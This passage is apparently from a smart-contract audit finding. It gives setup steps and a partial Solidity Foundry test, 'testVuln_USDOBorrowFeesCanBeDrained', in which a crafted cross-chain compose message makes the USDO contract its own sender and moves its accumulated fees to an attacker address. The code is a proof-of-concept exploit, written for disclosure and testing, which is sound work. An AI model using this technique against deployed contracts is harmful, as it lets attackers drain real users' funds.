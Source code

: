 1. Import and deploy two mock endpoints in the `Usdo.t.sol` file
2. Change the inherited OApp in `Usdo.sol` ’s implementation so that the endpoint variable is not immutable and add a `setEndpoint()` function so that the endpoint configured in `setUp()` can be chainged to the newly deployed endpoints
3. Paste the following test insde `Usdo.t.sol` :

```solidity
function testVuln_USDOBorrowFeesCanBeDrained() public {

        // Change configured enpoints

        endpoints[aEid] = address(mockEndpointV2A);
        endpoints[bEid] = address(mockEndpointV2B);

        aUsdo.setEndpoint(address(mockEndpointV2A));
        bUsdo.setEndpoint(address(mockEndpointV2B));

        
        // Mock generated fees
        deal(address(bUsdo), address(bUsdo), 100 ether);

        ////////////////////////////////////////////////////////
        //                 PREPARE MESSAGES                   //
        ////////////////////////////////////////////////////////

        // NEXT MESSAGE    B --> A      (EXECUTED AS THE nextMsg after the INITIAL  B --> A MESSAGE)            

        SendParam memory sendParamAToBVictim = SendParam({
            dstEid: aEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 100 ether, // IMPORTANT: This must be set to the amount we want to steal
            minAmountLD: 100 ether,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToBVictim = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToBVictim = LZSendParam({
            sendParam: sendParamAToBVictim,
            fee: feeAToBVictim,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        RemoteTransferMsg memory remoteTransferMsgVictim = RemoteTransferMsg({
            owner: address(bUsdo), // IMPORTANT: This will make the attack be triggered as bUsdo will become the srcChainSender in the nextMsg compose call
            composeMsg: bytes(""),
            lzSendParam: lzSendParamAToBVictim
        });

        uint16 index; // needed to bypass Solidity's encoding literal error
        // Create Toe Compose message for the victim
        bytes memory toeComposeMsgVictim = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsgVictim).length), // message length (0)
            index, // index
            abi.encode(remoteTransferMsgVictim), // message
            bytes("") // next message
```